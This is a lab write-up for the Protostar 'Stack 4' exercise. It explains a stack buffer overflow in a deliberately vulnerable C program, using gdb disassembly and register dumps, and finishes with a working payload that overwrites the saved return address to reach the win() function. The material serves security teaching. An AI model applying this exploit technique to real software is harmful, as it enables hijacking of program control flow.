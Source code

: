 ```yaml
---
title: Stack 4
sidebar_position: 5
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> Stack4 takes a look at overwriting saved EIP and standard buffer overflows.
> This level is at /opt/protostar/bin/stack4
> 
> **Hints**
> - A variety of introductory papers into buffer overflows may help
> - gdb lets you do “run < input
> - EIP is not directly after the end of buffer, compiler padding can also increase the size.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
In this program, we have the `win` function. 
There is no initialized function pointer in the `main` function. There fore we will have to overwrite the saved `eip`, also known as the the saved return address.

The saved return address is located before the buffer.
```
					|-------------------------|                                                       
entry esp --------> |     saved eip           |
					|     (return address)    |
                    |-------------------------|                                                           
new ebp ----------> |     saved ebp           |
					|-------------------------|
					|     buff [63]           |
					|          .              |
					|          .              |
					|          .              |
					|     buff [0]            |
					|-------------------------|
new esp ----------> |     i                   |
					|-------------------------|
					|                         |
```
That was a generalized representation.

We need the exact layout of the stack in order to craft our payload. 
```
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
```
Set a breakpoint at `main+21` and pass in the following input:
```
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
```
This will lead to segmentation fault.
```
Program received signal SIGSEGV, Segmentation fault.
0x74747474 in ?? ()
```
The error message tells us that the value of  stored `eip` was changed to `0x74747474` which is not a valid address. `0x74` is `t` in ASCII.

Let's try to get a clearer picture.
```
(gdb) info registers
eax            0xbffff770       -1073744016
ecx            0xbffff770       -1073744016
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7c0       0xbffff7c0
ebp            0x73737373       0x73737373
esi            0x0      0
edi            0x0      0
eip            0x74747474       0x74747474
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```
The 77th, 78th, 79th and 80th bytes from our input overwrote the saved `eip`, and the four bytes before those which were `ssss` overwrote the saved `ebp`.
This means we need 80 bytes in total. 64 bytes to fill the `buffer`, 8 bytes of padding, 4 bytes to overwrite the `saved ebp` and 4 for overwriting the `saved eip`.

In order to alter control flow to the `win` function, we first need to know its address.
```
(gdb) disassemble win
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.
```
These four bytes need to be the `0x080483f4` address in little-endian format.

## Exploit
```
$ python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
```


```python
import struct

padding = "A"*76
eip = struct.pack("I", 0x080483f4)
payload = padding+eip
print (payload)
```
